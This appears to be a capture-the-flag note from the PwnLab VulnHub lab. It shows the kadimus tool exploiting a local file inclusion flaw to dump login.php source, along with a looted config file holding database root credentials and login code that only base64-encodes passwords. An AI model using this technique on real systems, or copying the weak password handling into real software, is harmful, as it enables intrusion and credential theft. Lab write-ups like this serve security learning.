 ```bash
<?php
$server      = "localhost";
$username = "root";
$password = "H4u%QJ_H99";
$database = "Users";
?>



root@kali:/mnt/hgfs/my-notes-and-snippets/notes/ctfs/vulnhub/pwnlab/loot# kadimus -u http://192.168.56.103/?page=login --parameter page --get-source --filename "login" -O login.php  --proxy http://127.0.0.1:8080
 _  __         _ _
| |/ /__ _  __| (_)_ __ ___  _   _ ___
| ' // _` |/ _` | | '_ ` _ \| | | / __|
| . \ (_| | (_| | | | | | | | |_| \__ \
|_|\_\__,_|\__,_|_|_| |_| |_|\__,_|___/

  v1.1 - LFI Scan & Exploit Tool (@hc0d3r - P0cL4bs Team)

[21:18:41] [INFO] trying get source code of file: login
[21:18:41] [INFO] valid base64 returned:
[21:18:41] [INFO] check the output file

<?php
session_start();
require("config.php");
$mysqli = new mysqli($server, $username, $password, $database);

if (isset($_POST['user']) and isset($_POST['pass']))
{
        $luser = $_POST['user'];
        $lpass = base64_encode($_POST['pass']);

        $stmt = $mysqli->prepare("SELECT * FROM users WHERE user=? AND pass=?");
        $stmt->bind_param('ss', $luser, $lpass);

        $stmt->execute();
        $stmt->store_Result();

        if ($stmt->num_rows == 1)
        {
                $_SESSION['user'] = $luser;
                header('Location: ?page=upload');
        }
        else
        {
                echo "Login failed.";
        }
}
else
{
        ?>
        <form action="" method="POST">
        <label>Username: </label><input id="user" type="test" name="user"><br />
        <label>Password: </label><input id="pass" type="password" name="pass"><br />
        <input type="submit" name="submit" value="Login">
        </form>
        <?php
}

```